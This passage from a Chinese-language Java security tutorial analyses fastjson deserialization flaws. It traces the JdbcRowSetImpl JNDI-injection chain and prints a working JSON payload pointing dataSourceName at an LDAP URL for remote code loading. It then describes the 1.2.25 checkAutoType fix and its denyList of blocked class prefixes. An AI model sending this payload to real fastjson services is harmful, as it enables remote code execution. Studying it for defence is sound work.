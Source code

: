 
**JdbcRowSetImpl 反序列化**

JdbcRowSetImpl 类位于 `com.sun.rowset.JdbcRowSetImpl` ，这条漏洞利用链比较好理解，是 `javax.naming.InitialContext#lookup()` 参数可控导致的 JNDI 注入。

先看一下 `setAutoCommit()` 方法，在 `this.conn` 为空时，将会调用 `this.connect()` 方法。

![](https://oss.javasec.org/images/1616400334257.png)

方法里调用了 `javax.naming.InitialContext#lookup()` 方法，参数从成员变量 `dataSource` 中获取。

![](https://oss.javasec.org/images/1616400975286.png)

这时调用链就十分清晰了，最终的 payload 为：
```json
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

### 2. fastjson-1.2.25

在版本 1.2.25 中，官方对之前的反序列化漏洞进行了修复，引入了 checkAutoType 安全机制，默认情况下 autoTypeSupport 关闭，不能直接反序列化任意类，而打开 AutoType 之后，是基于内置黑名单来实现安全的，fastjson 也提供了添加黑名单的接口。

> 影响版本：`1.2.25 <= fastjson <= 1.2.41`
> 描述：作者通过为危险功能添加开关，并提供黑白名单两种方式进行安全防护，其实已经是相当完整的防护思路，而且作者已经意识到黑名单类将会无穷无尽，仅仅通过维护列表来防止反序列化漏洞并非最好的办法。而且靠用户自己来关注安全信息去维护也不现实。

安全更新主要集中在 `com.alibaba.fastjson.parser.ParserConfig`，首先查看类上出现了几个成员变量：布尔型的 autoTypeSupport，用来标识是否开启任意类型的反序列化，并且默认关闭；字符串数组 denyList ，是反序列化类的黑名单；acceptList 是反序列化白名单。

![](https://oss.javasec.org/images/1616459751324.png)

其中黑名单 denyList 包括：
```Java
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```
